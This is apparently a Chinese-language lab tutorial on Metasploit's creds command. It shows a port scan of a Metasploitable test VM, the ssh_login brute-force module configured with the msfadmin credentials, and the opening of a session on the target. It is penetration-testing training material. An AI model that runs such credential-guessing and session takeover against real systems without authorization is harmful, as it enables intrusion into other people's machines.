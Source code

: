 # creds获取登录信息

当msf完成某些服务的认证信息时，就会将其保存在数据库中。例如跑字典跑出ssh的账号密码，保存并显示。

### Credentials Backend Commands

    Command       Description
    -------       -----------
    creds         List all credentials in the database

## 使用namp的扫描结果

`192.168.108.132  21    tcp    ftp          open   vsftpd 2.3.4
192.168.108.132  22    tcp    ssh          open   OpenSSH 4.7p1 Debian 8ubuntu1 protocol 2.0
192.168.108.132  23    tcp    telnet       open   Linux telnetd
192.168.108.132  25    tcp    smtp         open   Postfix smtpd
192.168.108.132  53    tcp    domain       open   ISC BIND 9.4.2
192.168.108.132  80    tcp    http         open   Apache httpd 2.2.8 (Ubuntu) DAV/2
192.168.108.132  111   tcp    rpcbind      open   2 RPC #100000
192.168.108.132  139   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
192.168.108.132  445   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
192.168.108.132  512   tcp    exec         open   netkit-rsh rexecd
192.168.108.132  513   tcp    login        open   OpenBSD or Solaris rlogind
192.168.108.132  514   tcp    tcpwrapped   open
192.168.108.132  1099  tcp    java-rmi     open   GNU Classpath grmiregistry
192.168.108.132  1524  tcp    bindshell    open   Metasploitable root shell
192.168.108.132  2049  tcp    nfs          open   2-4 RPC #100003
192.168.108.132  2121  tcp    ftp          open   ProFTPD 1.3.1
192.168.108.132  3306  tcp    mysql        open   MySQL 5.0.51a-3ubuntu5
192.168.108.132  5432  tcp    postgresql   open   PostgreSQL DB 8.3.0 - 8.3.7
192.168.108.132  5900  tcp    vnc          open   VNC protocol 3.3
192.168.108.132  6000  tcp    x11          open   access denied
192.168.108.132  6667  tcp    irc          open   UnrealIRCd
192.168.108.132  8009  tcp    ajp13        open   Apache Jserv Protocol v1.3
192.168.108.132  8180  tcp    http         open   Apache Tomcat/Coyote JSP engine 1.1`

发现存在一个open-ssh

## 使用`auxiliary/scanner/ssh/ssh_login)`模块

配置好基本的ip后运行，在设置一个账户密码

`Name              Current Setting  Required  Description`

----              ---------------  --------  -----------
   `BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD          msfadmin         no        A specific password to authenticate with//用户密码
   PASS_FILE                          no        File containing passwords, one per line//存放密码的文件
   RHOSTS            192.168.108.132  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME          msfadmin         no        A specific username to authenticate as//用户名
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line//存放用户信息的文件
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line//存放用户名的文件
   VERBOSE           false            yes       Whether to print output for all attempts`

设置好之后`run`,如果密码正确创建session,使用`sessions -i id`获取权限。 

## creds

使用`creds`查看查看枚举测试成功内容。该命令也可以查询其他已经保存的认证成功的信息。



